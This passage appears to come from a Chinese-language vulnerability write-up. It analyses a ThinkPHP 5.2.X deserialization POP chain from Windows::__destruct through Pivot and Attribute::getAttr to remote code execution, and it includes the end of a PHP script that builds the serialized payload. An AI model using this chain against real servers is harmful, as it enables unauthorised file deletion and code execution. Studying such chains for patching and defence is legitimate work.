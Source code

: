 ```php
    public function __construct()
    {
        $this->files = new Pivot(); // obj
    }

}

/*step1*/
echo serialize(new Windows());
echo PHP_EOL;
echo base64_encode(serialize(new Windows()));
```

### 3.think\process\pipes\Windows:__destruct+think\Model\Pivot+动态调用RCE

#### - 利用条件

版本范围：ThinkPHP 5.2.X 

#### - 漏洞原理和分析

1. 入口： `think\process\pipes\Windows:__destruct`方法调用的`removeFiles`方法造成任意文件删除.
2. `file_exists`可触发任意类的`__toString`方法，需要`file_exists($filename)`的$filename可控且设为一个对象。
3. 【pop chains】`think\model\concern\Conversion::toArray`情况不变，用实类`think\model\Privot`。`Conversion::getAttr`方法处理参数的流程出现动态函数调用的情况，具体过程如下：

![img](https://cdn.nlark.com/yuque/0/2023/png/21861937/1678798949954-96a6fd0a-a42b-46f9-a641-a72558ccd7b0.png)

详细漏洞分析查看[ThinkPHP5.2.X反序列化利用链](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5.2.X%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE.md)

> 上个反序列化链条前三步在5.2.x也可以用，但是Request::input rce链条已经被修复了，所以需要重拼接，这里替换成通过匿名函数形式完成动态函数调用，达到RCE。

为了方便后续poc编写，这里分析展示`think\model\concern\Attribute`的相关代码:

```php
public function getAttr(string $name)
    {
        try {
            $relation = false;
            $value    = $this->getData($name);
          //getData('hello'), $value=$this->data[hello]/$this->relation[hello]
        } catch (InvalidArgumentException $e) {
            $relation = true;
            $value    = null;
        }

        return $this->getValue($name, $value, $relation);
      //name=hello,value=$this->data[hello]/$this->relation[hello], $relation=false
    }

public function getData(string $name = null)
    {
        if (is_null($name)) {
            return $this->data;
        }

        $fieldName = $this->getRealFieldName($name);//key=name=hello

        if (array_key_exists($fieldName, $this->data)) {
          //$this->data[hello]
          //这里等同于array_key_exists($name, $this->data)
            return $this->data[$fieldName];
        } elseif (array_key_exists($name, $this->relation)) {//默认感觉也可以的
            //$this->relation[hello]
```